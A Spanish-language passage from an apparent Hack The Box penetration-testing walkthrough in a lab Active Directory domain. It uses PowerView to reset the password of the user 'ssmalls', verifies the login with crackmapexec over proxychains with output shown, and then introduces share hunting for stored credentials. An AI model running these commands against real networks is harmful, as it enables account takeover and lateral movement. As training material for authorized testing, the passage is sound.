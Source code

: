 A continuación, escribe `powershell` para entrar en una consola PowerShell, y podemos usar `PowerView` para cambiar la contraseña del usuario `ssmalls` de la siguiente manera:

```r
PS C:\DotNetNuke\Portals\0> Import-Module .\PowerView.ps1

PS C:\DotNetNuke\Portals\0> Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Str0ngpass86!' -AsPlainText -Force ) -Verbose

VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'ssmalls'
VERBOSE: [Set-DomainUserPassword] Password for user 'ssmalls' successfully reset
```

Podemos volver a nuestro host de ataque y confirmar que la contraseña se cambió exitosamente. Generalmente, querríamos evitar este tipo de actividad durante una prueba de penetración, pero si es nuestro único camino, debemos confirmar con nuestro cliente. La mayoría nos pedirá que procedamos para ver hasta dónde podemos llegar, pero siempre es mejor preguntar. Por supuesto, queremos anotar cualquier cambio como este en nuestro registro de actividades para incluirlos en un anexo de nuestro informe.

```r
proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86!

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86!
```

---

## Share Hunting

Explorando el host y AD un poco más, no vemos nada útil. BloodHound no muestra nada interesante para el usuario `ssmalls`. Volviendo al contenido del `Penetration Tester Path`, recordamos que las secciones [Credentialed Enumeration from Windows](https://academy.hackthebox.com/module/143/section/1421) y [Credentialed Enumeration from Linux](https://academy.hackthebox.com/module/143/section/1269) cubrieron la búsqueda de shares de archivos con Snaffler y CrackMapExec respectivamente. Ha habido muchas veces en pruebas de penetración donde he tenido que recurrir a revisar shares de archivos para encontrar una pieza de información, como una contraseña para una cuenta de servicio o similar. A menudo he podido acceder a shares departamentales (como IT) con credenciales de bajo privilegio debido a permisos NTFS débiles. A veces, incluso puedo acceder a shares para algunos o todos los usuarios en la empresa objetivo debido al mismo problema. Con frecuencia, los usuarios no son conscientes de que su unidad de inicio es un share de red mapeado y no una carpeta local en su computadora, por lo que pueden guardar todo tipo de datos sensibles allí. Los permisos de los shares de archivos son muy difíciles de mantener, especialmente en organizaciones grandes. Me he encontrado revisando shares de archivos a menudo durante pruebas de penetración cuando estoy atascado. Puedo pensar en una prueba específica donde tenía credenciales de usuario pero estaba atascado y me dediqué a revisar shares. Después de un tiempo, encontré un archivo `web.config` que contenía credenciales válidas para una cuenta de servicio MSSQL. Esto me dio derechos de administrador local en un servidor SQL donde un administrador del dominio había iniciado sesión, y fue un éxito total. Otras veces he encontrado archivos con contraseñas en unidades de usuario que me han ayudado a avanzar. Dependiendo de la organización y cómo están configurados sus permisos de archivo, puede haber mucho que revisar y toneladas de "ruido". Una herramienta como Snaffler puede ayudarnos a navegar por eso y centrarnos en los archivos y scripts más importantes. Vamos a intentarlo aquí.
